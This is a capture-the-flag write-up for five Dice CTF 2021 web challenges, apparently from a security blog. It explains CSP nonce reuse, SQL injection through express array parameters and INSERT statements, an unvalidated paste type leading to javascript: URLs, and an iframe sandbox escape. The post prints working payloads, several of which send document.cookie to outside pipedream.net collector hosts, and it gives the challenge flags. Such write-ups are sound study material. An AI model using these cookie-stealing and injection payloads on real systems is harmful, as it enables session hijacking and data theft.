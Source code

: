 ```yaml
---
layout: post
title: "Dice CTF 2021 Write Up"
description: This article is about write-up for the Dice CTF 2021 . there is only four web challenges, which contain XSS and SQL Injection bug
date: 2021-02-08 23:29:53
imgurl: https://pbs.twimg.com/profile_images/1469917911083069440/q8lx4BRJ_400x400.png
excerpt: TR;DL > XSS, SQL Injection
---
```

![](https://github.com/wjddnjs33/image/blob/main/Dice%20CTF/dice%20main.png?raw=true)

---
# (Web) Babier CSP [107 pts]

The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.

```plaintext
FLAG : dice{web_1s_a_stat3_0f_grac3_857720}
```

---
# (Web) Missing Flavortext [111 pts]

The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.
```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.
```txt
username=admin&password[]=1&password[]=' or '1'='1
The payload used is as above.
```
```plaintext
FLAG : dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

---
# (Web) Web Utils [121 pts]

The Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.
```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as javascript:alert(1), you can trigger xss.

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of req.body.data is verified with a regular expression. So, you can’t put xss payload in the link creation logic.
```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.
```plaintext
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.

```plaintext
FLAG : dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```

---
### (Web) Build a Panel [130 pts]

The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.
```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains FLAG. (panelid is stored in a cookie.
```txt
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.

```plaintext
FLAG : dice{ch41n_ChAIn_aNd_m0Re_cHaIn}
```

---
# (Web) Web IDE [196 pts]

The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.
- Scenario
  - We are using allow-scripts as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
  - The path to the administrator’s cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
  - So, first you need to create a separate site and bypass the iframe sandbox.
  - If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
  - However, since xss payload is executed in /sandbox.html, it cannot read the admin cookie.
  - So, create an object using window.open("/ide"), and execute xss payload on the object to steal the cookie.

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.

```plaintext
FLAG :dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}
```
